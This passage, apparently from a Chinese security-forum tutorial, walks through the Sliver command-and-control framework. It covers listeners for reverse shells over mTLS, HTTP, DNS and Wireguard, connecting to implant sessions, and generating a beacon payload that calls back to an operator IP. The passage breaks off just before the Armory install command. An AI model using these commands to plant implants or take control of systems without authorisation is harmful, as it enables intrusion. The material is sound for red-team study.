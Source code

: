 ![p9PNy38.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-a539ba047fd3dd0f895eb8f5404878def44705ab.png)

### Listener | 监听器

启动监听器用于接收获取目标主机回连的shell，支持如下协议：

- mTLS  
    相互传输层安全（mTLS）是一个建立加密TLS连接的过程，其中双方都使用X.509数字证书来验证对方。
- HTTP
- HTTPS
- DNS
- Wireguard

```php
# 启动指定协议的监听器，配置端口
mtls -l 443
```

![p9PNs9f.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-dfbb514e1ecd3db36de5f0c22ae0695c9e430936.png)

### Sessions | 会话

当目标主机执行我们刚刚生成的 Implant 时，控制台中会显示一条信息，使用 use 命令连接进去，就可以进行基本的控制操作了。常见操作与我们使用 windows 和 linux 差不多，可以参考 HELP 中的提示。

```shell
use [sessions ID]
```

![p9PN2uQ.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-4b1f503583092c09a6001aac6dd7541502e7cdfb.png)

### Beacons | 信标

和 Sessions 不同的是，在生成载荷的时候需要添加 beacon 参数，如下：

```shell
generate beacon --http http://172.16.181.182:9002
http -l 9002
```

![p9PNRBj.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-09db2d884c32f4aeb246576a3f11b7ddd86533bb.png)

```shell
# 实时查看beacons的通信情况
beacons watch
```

![p9PNOb9.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-495e3e66d06c51766cd96ecd9b8192edf48f03c5.png)

### Armory | 扩展管理器

Armory是Sliver Alias and Extension软件包管理器，它允许你自动安装各种第三方工具，如BOF和.NET工具。工具的清单可以在 [Github](https://github.com/sliverarmory/armory/blob/master/armory.json) 上找到。  
安装第三方工具命令如下：
